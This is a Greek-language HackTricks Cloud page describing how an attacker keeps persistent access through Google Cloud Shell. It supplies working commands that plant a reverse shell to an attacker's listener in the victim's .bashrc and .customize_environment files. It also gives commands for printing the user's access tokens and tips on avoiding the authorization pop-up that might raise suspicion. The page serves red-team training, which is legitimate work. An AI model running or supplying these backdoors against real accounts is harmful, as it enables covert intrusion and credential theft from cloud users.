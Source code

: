 # GCP - Μόνιμη Ανθεκτικότητα Cloud Shell

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο Hacking του AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Εκπαίδευση HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο Hacking του GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Εκπαίδευση HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστηρίξτε το HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε** 💬 [**στην ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα χάκερ κάνοντας υποβολή PRs** στα αποθετήρια [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## Cloud Shell

Για περισσότερες πληροφορίες ελέγξτε:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Μόνιμη Πίσω Πόρτα

Το [**Google Cloud Shell**](https://cloud.google.com/shell/) σας παρέχει πρόσβαση στη γραμμή εντολών στους πόρους σας στο cloud απευθείας από τον περιηγητή σας χωρίς καμία σχετική χρέωση.

Μπορείτε να έχετε πρόσβαση στο Cloud Shell της Google από τη **web κονσόλα** ή εκτελώντας το **`gcloud cloud-shell ssh`**.

Αυτή η κονσόλα έχει μερικές ενδιαφέρουσες δυνατότητες για επιτιθέμενους:

1. **Οποιοσδήποτε χρήστης της Google με πρόσβαση στο Google Cloud** έχει πρόσβαση σε ένα πλήρως πιστοποιημένο παράδειγμα Cloud Shell (οι λογαριασμοί υπηρεσιών μπορούν, ακόμα και αν είναι Ιδιοκτήτες του οργανισμού).
2. Το συγκεκριμένο παράδειγμα θα **διατηρήσει τον κατάλογο του αρχικού χρήστη του για τουλάχιστον 120 ημέρες** αν δεν υπάρξει καμία δραστηριότητα.
3. Δεν υπάρχουν **δυνατότητες για έναν οργανισμό να παρακολουθήσει** τη δραστηριότητα αυτού του παραδείγματος.

Αυτό σημαίνει βασικά ότι ένας επιτιθέμενος μπορεί να τοποθετήσει μια πίσω πόρτα στον κατάλογο του χρήστη και όσο ο χρήστης συνδέεται στο GC Shell κάθε 120 ημέρες τουλάχιστον, η πίσω πόρτα θα επιβιώσει και ο επιτιθέμενος θα λάβει ένα κέλυφος κάθε φορά που το εκτελεί απλά κάνοντας:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Υπάρχει ένα άλλο αρχείο στον φάκελο home που ονομάζεται **`.customize_environment`** που, αν υπάρχει, θα **εκτελείται κάθε φορά** που ο χρήστης έχει πρόσβαση στο **cloud shell** (όπως στην προηγούμενη τεχνική). Απλά εισάγετε την προηγούμενη πίσω πόρτα ή μια παρόμοια για να διατηρήσετε την επιμονή όσο ο χρήστης χρησιμοποιεί "συχνά" το cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Είναι σημαντικό να σημειωθεί ότι **την πρώτη φορά που εκτελείται μια ενέργεια που απαιτεί πιστοποίηση**, εμφανίζεται ένα παράθυρο εξουσιοδότησης pop-up στον περιηγητή του χρήστη. Αυτό το παράθυρο πρέπει να γίνει αποδεκτό πριν εκτελεστεί η εντολή. Αν εμφανιστεί ένα απροσδόκητο pop-up, μπορεί να προκαλέσει υποψίες και ενδεχομένως να θέσει σε κίνδυνο τη μέθοδο διατήρησης που χρησιμοποιείται.
{% endhint %}

Αυτό είναι το pop-up από την εκτέλεση της εντολής `gcloud projects list` από το cloud shell (ως επιτιθέμενος) που προβάλλεται στη συνεδρία χρήστη του περιηγητή:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Ωστόσο, αν ο χρήστης έχει χρησιμοποιήσει ενεργά το cloudshell, το pop-up δεν θα εμφανιστεί και μπορείτε να **συγκεντρώσετε τα τεκμήρια του χρήστη με**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Πώς γίνεται η σύνδεση SSH

Βασικά, χρησιμοποιούνται αυτές οι 3 κλήσεις API:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (θα σας κάνει να προσθέσετε το δημόσιο κλειδί που δημιουργήσατε τοπικά)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (θα σας κάνει να ξεκινήσετε την εικονική μηχανή)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (θα σας πει τη διεύθυνση IP του Google Cloud Shell)

Ωστόσο, μπορείτε να βρείτε περισσότερες πληροφορίες στο [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Αναφορές

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
